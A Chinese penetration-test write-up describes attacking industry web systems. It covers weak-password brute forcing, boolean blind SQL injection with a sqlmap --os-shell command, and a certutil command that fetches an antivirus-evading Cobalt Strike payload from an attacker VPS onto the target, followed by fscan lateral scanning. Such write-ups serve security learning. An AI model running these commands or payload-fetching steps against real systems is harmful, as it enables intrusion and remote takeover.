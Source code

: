 # 记一次从登录框到内网横向
## 前言
接到公司通知要对某某行业做渗透测试，挖一些尽可能高危的漏洞，于是便有了接下来的故事。
## 0x01 信息收集
首先收集了十几个该行业相关的网站，然后一个个做信息收集，先列出来可利用的点。
![](1.png)

1. 某某公司为YouDianCMS（可能存在注入）。
2. 某集团OA，使用的是通达OA。
3. 某管理系统，存在登录框，无验证码。
4. 某监控管理系统，存在登录框，无验证码。
5. 某收费系统，使用的是若依管理系统。

## 0x02 漏洞利用
1. 习惯性先试一下通达OA，通达OA的利用工具比较方便，若存在漏洞可以一键getshell,不过利用失败了。
![](2.png)
![](3.png)
2. 测试YouDianCMS，之前收集的youdianCMS的sql注入的POC，直接利用，但是还是不存在该漏洞。
![](4.png)
3. 测试若依管理系统：

	1) 测试默认口令：admin/admin123，失败。
![](5.jpg)
	2) 测试shiro反序列化漏洞。
![](6.jpg)
均失败了

4. 测试某管理系统：

爆破密码。爆出来了弱口令admin/456123，但是登录进去后找了一圈没有geshell的点，一个弱口令肯定没法交差。
![](7.png)

5. 测试某监控管理系统的登录框
![](18.png)
最后一个点了，再不行要重新打点了，本来也没报什么希望，登录框做渗透测几乎没挖到过什么大的漏洞。

首先测试弱口令，爆破了一圈没有弱口令，扫目录也没扫出什么东西，JS代理里也没泄露有用的信息，突然想到还没试注入，这一试，果然有问题。
![](8.png)
![](9.jpg)
当loginName的值后边修改为`and'q'='q"`时，页面返回密码错误，修改为`and'u'='k"`时，页面返回用户不存在，说明页面存在布尔盲注。
sqlmap一把梭：

	sqlmap.py -r 1.txt --dbs --random-agent --proxy=http://127.0.0.1:7890
![](9.png)
跑出来了数据库，但是跑表的时候出错了，不知道为什么跑不出来。


直接获取shell试试：

	sqlmap.py -r 1.txt --os-shell --random-agent --proxy=http://127.0.0.1:7890
![](10.png)
可以执行命令，但是回显的巨慢。

本来想着已经成功了，接下来的拿shell就水到渠成，没想到又曲折了一番。

1. CS直接生成powershell命令，然后令目标系统执行，执行完毕一直没上线，然后想着让sqlmap回显一下看看有什么问题，等了十几分钟页面才回显完，应该是有杀软，检测到该命令为危险命令，就给拦截了。
![](11.png)

2. 直接生成exe肯定也不行，这时候就要让大佬帮忙了。
![](12.png)
![](13.png)

免杀马到手，Windows通过certutil命令进行远程下载。
先把免杀马上传到VPS上，然后开一个http服务。
然后在shell中执行：

	certutil -urlcache -split -f http://xx.xx.xx.xx/cs.exe dll.exe
然后执行`dll.exe`，这回想着肯定能成功，结果等了半天还是没反应，一脸懵逼，看了下VPS，有下载记录呀。
![](14.png)
难道被杀了？想执行一下`dir`看看目录下有没有该文件，但是目录下有几百个文件，要等全部都回显要等半小时。
最后想了想是不是该目录下没有权限，于是在目标系统的D盘新建一个dll文件夹，然后把免杀马写到这里。

	certutil -urlcache -split -f http://xx.xx.xx.xx/cs.exe d:\dll\dll.exe
![](17.png)

然后执行：`d:\dll\dll.exe`，终于上线。
![](15.png)

## 0x03 横向攻击
看一下目标机器有哪些敏感文件可利用，收获颇丰呀。
![](16.png)

fscan横向一波，发现了几个站点，但是没有扫到能直接利用的漏洞。
![](19.png)

由于领导说的只是让挖到漏洞，所以要问下领导能否进行横向攻击，先点到为止。

## 0x04 总结
之前做渗透每次遇到登录框都比较头疼，因为登录框可利用的点比较少，也没在登录框上挖到过什么大的漏洞，但是本次运气还是比较好的，总算可以交差了。

